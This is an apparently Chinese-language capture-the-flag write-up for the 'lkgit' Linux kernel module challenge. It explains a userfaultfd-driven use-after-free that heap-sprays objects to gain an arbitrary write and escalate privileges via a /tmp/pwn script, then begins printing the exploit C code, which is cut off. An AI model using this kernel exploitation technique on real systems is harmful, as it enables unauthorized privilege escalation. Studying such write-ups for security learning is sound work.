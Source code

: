 ```c
        if (copy_from_user(buf, reqptr->message, MESSAGE_MAXSZ))
            goto end;
        ret = lkgit_get_object(reqptr);
        // amend message
        memcpy(target->message, buf, MESSAGE_MAXSZ);
    }

    end:
        return ret;
}
```

一旦存取 `reqptr->message` 時發生 page fault，我們就可以在 page fault 的過程中將 `target` 指向的位址 free 掉，並且在透過 spray `hash_object` 控制 `target->message` 偏移儲存的 pointer，這樣 `buf` 內部的值就會被寫到我們控制的位址。而 `buf` 的值從 `reqptr->message` 來，也是可以透過 page fault handler 來控制，因此我們將值寫成 `/tmp/pwn`，並將 **/tmp/pwn** 寫入調整 flag 權限的 shell script，這樣就可以用 user 的身份來讀 **flag**，做到提權。

exploit 如下：

```c
#define _GNU_SOURCE
#include <inttypes.h>
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <poll.h>

#define CMD "#!/bin/sh\nchmod 777 /home/user/flag\n"

#define LKGIT_HASH_OBJECT         0xdead0001
#define LKGIT_AMEND_MESSAGE       0xdead0003
#define LKGIT_GET_OBJECT          0xdead0004

#define LKGIT_ERR_UNIMPLEMENTED   0xdead1000
#define LKGIT_ERR_OBJECT_NOTFOUND 0xdead1001
#define LKGIT_ERR_UNKNOWN         0xdead1100

#define FILE_MAXSZ                0x40
#define MESSAGE_MAXSZ             0x20
#define HISTORY_MAXSZ             0x30

#define HASH_SIZE                 0x10

typedef struct {
  char hash[HASH_SIZE];
  char *content;
  char *message;
} hash_object;

typedef struct {
  char hash[HASH_SIZE];
  char content[FILE_MAXSZ];
```